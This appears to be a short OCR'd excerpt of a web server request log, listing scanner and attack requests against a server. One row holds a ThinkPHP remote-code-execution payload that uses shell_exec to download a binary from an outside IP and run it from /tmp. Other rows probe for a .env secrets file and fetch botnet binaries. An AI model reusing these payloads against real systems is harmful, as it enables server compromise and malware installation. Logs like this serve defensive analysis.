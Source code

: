 | 135 |                     2 | GET /nsharm5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 136 |                     2 | GET /localhost/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 137 |                     2 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 138 |                     2 | GET /nshkarm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 139 |                     2 | GET /hidakibest.mpsl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 140 |                     2 | GET /hidakibest.arm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 141 |                     2 | GET /hidakibest.x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |